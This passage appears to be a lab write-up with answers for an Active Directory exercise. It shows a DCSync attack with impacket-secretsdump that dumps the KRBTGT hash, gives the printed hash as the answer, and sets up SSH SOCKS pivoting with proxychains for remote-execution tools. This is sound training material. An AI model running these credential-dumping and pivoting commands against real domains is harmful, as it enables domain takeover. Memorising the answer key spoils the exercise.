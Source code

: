 
## 🏆 **Question 12: DCSync Attack**

### **🎯 Task**: "Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise."

### **📋 Solution Steps:**

```bash
# DCSync KRBTGT hash:
proxychains impacket-secretsdump administrator:Welcome1@172.16.7.3 -just-dc-user KRBTGT

# Output:
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f:::
```

**🎯 Answer**: `7eba70412d81c1cd030d72a3e8dbe05f`

---

## 🛠️ **Professional Methodology Comparison**

### **🔥 Superior Approach: SSH -D + Proxychains**

#### **Setup:**
```bash
# Single command setup:
ssh htb-student@jump_box -D 9050

# Configure once:
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf
```

#### **Usage:**
```bash
# ALL tools work seamlessly:
proxychains impacket-wmiexec user:pass@target
proxychains crackmapexec smb target_range
proxychains xfreerdp /v:target /u:user /p:pass
proxychains secretsdump.py user:pass@target
```

### **🔧 Why CrackMapExec + Impacket > Meterpreter**

#### **✅ CrackMapExec/Impacket Advantages:**
- **Native SMB/RPC protocols** - better compatibility
- **Built-in credential extraction** - no separate tools needed
- **Proxy-friendly** - works flawlessly with proxychains
- **Professional standard** - real-world pentesting tools
- **Comprehensive coverage** - all AD attack vectors
- **Reliable output** - consistent results
